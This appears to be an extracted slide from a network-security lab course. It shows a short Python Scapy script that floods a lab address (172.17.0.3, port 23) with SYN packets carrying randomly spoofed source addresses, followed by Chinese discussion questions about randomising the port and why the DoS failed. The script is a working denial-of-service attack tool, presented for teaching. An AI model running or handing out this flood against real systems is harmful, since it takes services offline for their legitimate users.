

# 用Scapy进行SYN-Flooding攻击
#!/usr/bin/python3
from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
from random import getrandbits

a = IP(dst="172.17.0.3")
b = TCP(sport=1551, dport=23, seq=1551, flags='S’)
pkt = a/b

while True:
    pkt[IP].src = str(IPv4Address(getrandbits(32)))
    send(pkt, verbose = 0)

如何变成随机端口？
合法用户还能访问，DoS未成功，why?